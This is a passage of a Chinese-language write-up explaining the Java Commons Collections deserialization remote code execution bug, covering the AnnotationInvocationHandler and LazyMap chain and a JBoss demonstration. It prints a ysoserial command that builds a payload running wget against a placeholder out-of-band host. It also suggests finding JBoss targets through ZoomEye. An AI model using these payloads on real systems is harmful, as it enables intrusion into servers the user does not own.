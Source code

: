 ![](http://drops.javaweb.org/uploads/images/482701d9cff3aa95d3d6e51515be8d7120b7143f.jpg)

可以看到，首先调用了`defaultReadObject`来获取了类属性`type`和`memberValues`，找到定义，这两个东西如下：

![](http://drops.javaweb.org/uploads/images/57e783452cb82c95d9b107782629cff248d790d6.jpg)

在`readObject`方法中，类型检查之前就触发了我们对象的方法。从`memberValues`参数中获取了`entry`并`setValue`，这样，虽然可能会有类型错误，但是代码却执行了。符合了之前我们关于RCE的构想。所以看懂exp就变得很简单。exp做了一件事情，就是返回一个序列化的`handler`对象，对象里包含了我们的`transformer`对象数组，用来装载我们要执行的代码。

创建`handler`的方法如下:

![](http://drops.javaweb.org/uploads/images/84a0ea50a20e22d50be5859539099362290f87a8.jpg)

利用反射，获取到`AnnotationInvocationHandler`的构造函数，并传入了我们的map，`getInstance`返回一个`handler`对象，完成了所要求的一切，之后，找个使用可控序列化的地方发送这个序列化`handler`即可执行我们的代码。

我还是把exp贴上来吧，这段代码就是构造我们的`handler`对象：

![](http://drops.javaweb.org/uploads/images/6f9bee578ef61c5540e4d06f27af38cfe51d9a73.jpg)

首先exp里构造了`transformer`对象数组并用`LazyMap`进行包装，包装后装到一个`handler`对象里并返回这个`handler`。

0x03 演示
=====

为什么说这个RCE影响大，具体可以看看参考文章1中作者给出的几个案例，可以看到主流的java-web中间件都受到了影响，包括jboss、WebLogic、 WebSphere等。

以jboss为例的利用教程，在zone里[http://zone.wooyun.org/content/23847](http://zone.wooyun.org/content/23847)已经给出步骤了，利用门槛不高，只需要在zoomeye上找jboss来测试即可。

由于是RCE，所以花样很多了，这里我就挑几个案例，利用CloudEye执行看看，执行命令为：

```
wget http://your-cloudeye-site

```

如果成功执行，那么我们的cloudeye上应该有日志的。 具体如下：

```
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'wget http://your-cloudeye-site' > out.ser

```

上面的命令是获取执行wget命令的`handler`对象的序列化code，然后我们访问jboss里的JMX服务：

![](http://drops.javaweb.org/uploads/images/593cde94eb88001b987a898c64e8702dfa858e5a.jpg)

在cloudeye上，成功获取了访问记录：

![](http://drops.javaweb.org/uploads/images/f32d142332833d57e0a1d570ea6e4b3e2cd5e242.jpg)

配合cloudeye，我们完全可以做到命令回显，不过既然是RCE了，玩儿法就太多了。

实际上，参考文章1中给出了JAVA中使用了序列化的场景：

> *   In HTTP requests – Parameters, ViewState, Cookies, you name it.
> *   RMI – The extensively used Java RMI protocol is 100% based on serialization
> *   RMI over HTTP – Many Java thick client web apps use this – again 100% serialized objects
> *   JMX – Again, relies on serialized objects being shot over the wire
> *   Custom Protocols – Sending an receiving raw Java objects is the norm – which we’ll see in some of the exploits to come
